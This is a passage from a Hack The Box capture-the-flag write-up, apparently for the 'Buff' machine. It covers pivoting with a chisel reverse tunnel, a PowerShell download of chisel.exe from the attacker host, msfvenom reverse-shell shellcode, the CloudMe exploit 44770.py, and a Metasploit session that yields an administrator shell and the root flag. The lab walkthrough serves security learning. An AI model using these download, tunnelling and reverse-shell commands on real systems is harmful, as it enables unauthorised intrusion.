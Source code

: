     :::text
    ./chisel_1.6.0_linux_amd64 server -p 9001 -reverse

Using our limited shell we download our `chisel` binary on the box and run it as
client on port `8888` (remember this strange open port on the nmap scan?) as
CloudMe is also running on port 8888 (as stated on the exploit `44770.py`).

    :::text
    C:\xampp\htdocs\gym\upload> powershell -exec bypass -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.24:8080/chisel.exe', '.\chisel.exe')"
    C:\xampp\htdocs\gym\upload> .\chisel.exe client 10.10.14.24:9001 R:8888:localhost:8888

The exploit `44770.py` also told us to generate a new shellcode using
`msfvenom`.

    :::text
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.24 LPORT=4444 -f c

We update the script with our shell code, configure the `metasploit` handler and
run it as well as the exploit script (with `python 44470.py`) . We got a shell as `administrator` and can
get the root flag.


    :::text
    msf5 exploit(multi/handler) > run

    [*] Started reverse TCP handler on 10.10.14.24:4444
    [*] Command shell session 1 opened (10.10.14.24:4444 -> 10.10.10.198:53234) at 2020-07-25 12:07:33 -0400

    whoami
    whoami
    buff\administrator

    C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
    type C:\Users\Administrator\Desktop\root.txt
    4ea57b2b8df4db2ea72531bcc50c5a86

# Wrapping up

This box was really quick as it only require to exploit two CVE. The pivoting
technique was an interesting complication for an easy HTB machine.

